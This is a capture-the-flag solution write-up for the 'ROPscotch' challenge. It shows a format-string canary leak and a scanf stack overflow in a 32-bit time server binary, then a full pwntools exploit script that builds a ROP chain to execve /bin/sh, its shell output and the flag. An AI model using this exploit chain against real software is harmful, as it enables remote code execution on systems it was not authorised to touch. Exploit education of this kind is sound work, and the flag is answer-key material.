


# Solution Write Up for 'ROPscotch'
# Expected Behavior
This challenge gives a url and a port. As it is not an HTTP url it can be connected to via netcat.

When giving it the argument "T" it returns the current date and then closes the connection.

```bash
$ nc localhost 4444                                                                                  
Welcome to the time and date server!
Please select from the following options.
        T = Show current time.
        D = Show current date.
T
Time is: 22:40:18 UTC
```

The "timeserver" binary is also given as a download, which is what is being ran remotely.

# Solution

1. First step is to determin what types of protections are inplace for this executable.
```bash
checksec timeserver
[*] '/tmp/ROPscotch/challenge/timeserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We can see that it is an x86 binary with Partial RELRO, meaning that the GOT could be overwritten if there is a Write What Where primative. There is a stack canary, meaning that this value must be reconstructed if a buffer overflow take place. The stack is set to not be executable, so no shellcode execution from user supplied data, unless mprotect() is called to enable execution again. Lastly, it is not a Position Independant Executable (PIE) program meaning that the address' will stay the same and can potentially be used as ROP gadgets.

2. Decompiling the main function of the downloaded binary shows that "action()" is called to get user input.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int ret;

  setvbuf(stdout, 0, 2, 0);
  ret = 1;
  get_local_tz();
  while ( ret )											// Will keep calling itself until valid input is given
  {
    printf_0(
      "Welcome to the time and date server!\n"
      "Please select from the following options.\n"
      "\tT = Show current time.\n"
      "\tD = Show current date.");
    ret = action();										// User input from this funcion
  }
  return 0;
}
```
Seen below "scanf()" is used to store the user input into "buf[128]". "scanf()" is a vulnerable function since it reads arbitrary number of bytes and can overflow our buffer of only 128 bytes.

```c
int action()
{
  char v1;
  char v2;
  char buf[128];
  unsigned int v4;

  v4 = __readgsdword(0x14u);			// Read Stack Canary
  scanf("%s", (char)buf);				// User input read in here to a 128 byte buffer
  if ( !j_strcmp_ifunc(buf, "T") )		// If buf == "T" print the time
  {
    print_time(1);
    return 0;							// Returns PASSED
  }
  if ( !j_strcmp_ifunc(buf, "D") )		// If buf == "D" print the date
  {
    print_time(2);
    return 0;							// Returns PASSED
  }
  if ( !j_strcmp_ifunc(buf, "L") )		// Unmarked "L" function
  {
     get_location();
  }
  else									// Invalid option
  {
	printf("Invalid option: ", v1);
    printf(buf, v2);					// Passes User input directly to printf ;)
    putchar(10);
  }
  return 1;								// Returns FAILED
}
```
If an invalid option is passed it this program passes the user input directly into "printf()", which can be used for a format string exploit.

One other thing to notice here is that it was never described what the "L" option was in the original print message we got from the program. But looking at that function shows that it is a "beta function and may not work". 

```c
void get_location()
{
  getchar();
  printf_0("The Timezone setting functionality is currently in beta and may not work");
  printf_0("What is your TZ?");
  if ( !fgets(location, 64, stdin) )
    strcpy(location, "GMT");
}
```
The "get_location()" function saves 64 bytes of data to a gloabal varible "location". This will come in handy durring exploitation.

3. Seeing that the user supplied input is passed directly to the "printf()", memory can be leaked by passing "%x%x%x%x"
```bash
./timeserver
Welcome to the time and date server!
Please select from the following options.
        T = Show current time.
        D = Show current date.
%x%x%x%x
Invalid option: 80d90d180d90e4804a29e81101c0
```
The "80d90d180d90e4804a29e81101c0" vaules are actually getting read directly off the stack. This can help leak addresses on the stack including the stack canary itself.

3. To leak the stack canary we can use the "%5$x" syntax, which will say read the dword ($x) after 5 dwords. The easiest way to find the correct offset is in GDB.

\
**Figure:** Screenshot of timeserver in GDB

* Red Dot #1: Execution broken right after the "printf()" call with "%x%x"
* Red Dot #2: The stack addresses leaked from the "%x%x"
* Red Dot #3: Showing 40 DWORDs of stack memory.
* Red Dot #4: The first leaked address show from Red Dot #2.
* Red Dot #5: This is our string in hex "%x%x" == 0x25782578
* Red Dot #6: The stack canary that we want to leak

The address of our string is **0xffffb93c** + 128 for the size = **0xffffb9bc**, which is the address of the canary. So from the first leaked address marked at #4 to the cannary is 156 bytes away. 156 / 4 = 39. To leak the canary value the offset needs to be "%39$x".

4. With the canary leaked, an exploitation technique is needed. Many options exist but for this walkthrough the route of calling the syscall execve will be taken. For execve syscall to sucessfully work the following is mandatory.
```
* EAX = 11              - Syscall for execve
* EBX = /bin/sh\x00     - Filename to exec
* ECX = 0x00000000      - arguments (argv[])
* EDX = 0x00000000      - Environmont (envp[])
* int 0x80              - initiate syscall
```

5. First order of business, get the string "/bin/sh\x00" into memory. Remember the "L" flag that allowed for 64 bytes of user supplied data to be read in? Lets use that buffer for "/bin/sh\x00".
\
**Figure:** Screenshot of timeserver in GDB

* Red Dot #1: Execution broken right after the "printf()" call again.
* Red Dot #2: Passing the valid option "L"
* Red Dot #3: Adding "/bin/sh\n" as our timezone.
* Red Dot #4: Returns us to enter another option, "AAAA%x%x%39$x" is provided.
* Red Dot #5: **0x080d90d1** is the start of our leaking, **0xe4f21f00** is the canary value sucsessfully leaked.
* Red Dot #6: The start of our format string.
* Red Dot #7: The address of our "/bin/sh\n" as shown from the "search /bin/sh" call right before.
* Red Dot #8: The canary address leaked from our format string.

The address of our string is 7 DWORDs before the stack canary so the correct offset to leak this address is "%32$x".

6. Now that we have the correct offsets to leak the data needed to call the syscall execve a payload to buffer overflow and control execution via a ROP chain to satisfy all of the execve requirments from step #4.

7. Since the executeable is not PIE, the binary itself can be used to find ROP gadgets to jump to and execute. This can be done using a tool like Ropper.
```bash
$ ropper --no-color -f ./timeserver > rops.txt
$ grep ": pop ebx; ret;" rop.txt
0x08049022: pop ebx; ret;
```
8. Building out a ROP chain comes down to personal prefrence but the one I choose to create is below.

## Supporting solution info
[//]: <> (Add your full sulution scripts as files if applicable or use this section here to add a code block.)
```python
#!/usr/bin/env python3

from pwn import *
import sys, struct, os

def start():
    elf = context.binary = ELF('../challenge/timeserver')
    gs = '''
    b *main
    b *printf
    continue
    '''

    if args.GDB:
        # context.terminal = ['tmux', 'new-window'] # Uncomment for Tmux
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('localhost', 4444)
    else:
        return process(elf.path)

def exploit():
    # Start the process
    p = start()
    # Print the programs message
    print(p.recv().decode())

    # Set cmd to execve
    p.sendline('L\n/bin/sh\x00')    # Drop to shell
    p.recv()                        # Recv response

    # Send info leak
    p.sendline('AAAA' + '%39$x' + '%32$x')
    # Ruturns "Invalid option: AAAAxxxxxxxxyyyyyyyy" where x's are the canary and y's are buff addr
    leak = p.recv()
    canary = leak[20:28]            # Parse out canary
    buff = leak[28:36]              # Parse out Buffer address

    # Print out the canary and the buffer address
    print('Canary: ' + canary.decode())
    print('Buffer Address: ' + buff.decode())


    # Build payload
    # EAX = 11              - Syscall for execve
    # EBX = /bin/sh\x00     - Filename to exec
    # ECX = 0x00000000      - arguments (argv[])
    # EDX = 0x00000000      - Environmont (envp[])
    # int 0x80              - initiate syscall
    payload = b'T\x00'                                      # Valid option to initiate Return
    payload += b'C' * 126                                   # Garbage that overflows
    payload += p32(int(canary,16))                          # Canary
    payload += p32(0xdeadbeef) * 3                          # junk for EBP, and the 2 following pops
    # pop edx ; pop ebx ; ret
    payload += p32(0x08066219)                              # pop off two junk words and then start ROP
    payload += b'\x00\x00\x00\x00'                          # 0x00 -> EDX
    payload += p32(int(buff,16))                            # Buffer for /bin/sh\x00 -> EBX
    # inc eax ; pop edi ; ret
    payload += ((p32(0x0806f3ec) + p32(0xdeadbeef))) * 11   # set EAX to 11 for syscall(execve), pop junk -> EDI
    # xor ecx, ecx ; int 0x80
    payload += p32(0x0804ad4f)                              # 0x00 -> ECX, initiate syscall

    # Send payload
    p.sendline(payload)
    print(p.recv())
    # Drop to shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```
### Usage: ```python3 ./solution.py REMOTE```

### Expected output:

```bash
$ python3 ./solution.py REMOTE
[*] '/tmp/ROPscotch/challenge/timeserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 4444: Done
Welcome to the time and date server!
Please select from the following options.
    T = Show current time.
    D = Show current date.

/tmp/ROPscotch/solution/./solution.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('L\n/bin/sh\x00')    # Drop to shell
/tmp/ROPscotch/solution/./solution.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('AAAA' + '%39$x' + '%32$x')
Canary: db198100
Buffer Address: 8111dc0

b'Time is: 01:00:04 /bin/sh\n'
[*] Switching to interactive mode
$ ls
bin
boot
dev
entrypoint.sh
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
private
proc
root
run
sbin
srv
sys
timeserver
tmp
usr
var
$ cat flag.txt
ATR[84DC0D31584DC0D3]
$
```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)
Passing REMOTE to solution.py will try to connect to localhost:4444, if GDB is passed as an argument the timeserver binary will be loaded into GDB and have a breakpoint set on printf(). If execution is sucessful you should be dropped into a shell which can access the flag located at /flag.txt. 


# Flag
[//]: <> (Add the flag below)
**ATR[84DC0D31584DC0D3]**
